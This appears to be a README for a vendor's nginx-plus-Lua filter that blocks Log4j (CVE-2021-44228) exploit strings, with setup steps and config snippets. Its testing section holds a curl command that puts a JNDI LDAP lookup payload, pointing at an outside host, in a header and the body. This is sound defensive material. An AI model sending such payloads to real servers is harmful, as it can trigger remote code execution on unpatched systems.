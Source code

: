 
# nginx-lua
This repository contains the configuration for the mitigation of log4j vulnerabilities in the JAVA application. Nginx with the help of lua module will prevent the attacker to access vulnerable JAVA application


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal Expertflow application. 


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/release/docker/nginx/`
2. Update the `/path/to/release/docker/nginx/https-singleton.conf` file. Add the following code in `https-singleton.conf`
```
############## lua conf################
    set $captured_request_headers "";
    set $captured_request_body "";
    set $cve_2021_44228_log "";
    rewrite_by_lua_block {
        cve_2021_44228.block_cve_2021_44228()

 }
###########################################
````
3. Now we need to update the `/path/to/release/active/docker-compose-service-gateway.yml` file. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/release/docker/nginx/https-singleton.conf:/etc/nginx/conf.d/https.conf
      - /path/to/release/docker/nginx/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/release/docker/nginx/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/release/docker/nginx/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/ccm/360notifications' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
